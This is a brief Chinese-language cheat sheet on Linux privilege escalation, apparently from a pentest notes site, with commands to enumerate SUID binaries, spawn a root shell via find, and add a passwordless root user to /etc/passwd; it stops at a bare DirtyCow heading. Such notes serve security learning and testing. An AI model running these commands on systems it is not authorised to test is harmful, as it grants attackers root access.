 ```yaml
---
sort: 4
---
```


# 1. Linux 提权

## 各种提权命令

[https://gtfobins.github.io](https://gtfobins.github.io/)

## 信息收集

以下命令可以发现系统上运行的所有 SUID 可执行文件。

```
#以下命令将尝试查找具有root权限的SUID的文件，不同系统适用于不同的命令，一个一个试
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000-print2>/dev/null
find / -user root -perm -4000-exec ls -ldb {} \;
```

已知的可用来提权的 linux 可行性的文件列表如下：

    nmap
    vim
    find
    bash
    more
    less
    nano
    cp
    screen 4.5.0

## find 提权

```
find . -exec /bin/sh \; -quit
```

## 修改/etc/passwd 文件提权

设法在/etc/passwd 文件中添加一条(如使用 teehee)

```
r00t::0:0:root:/root:/bin/bash
```

使用`su r00t`即可获得 root 权限

## DirtyCow

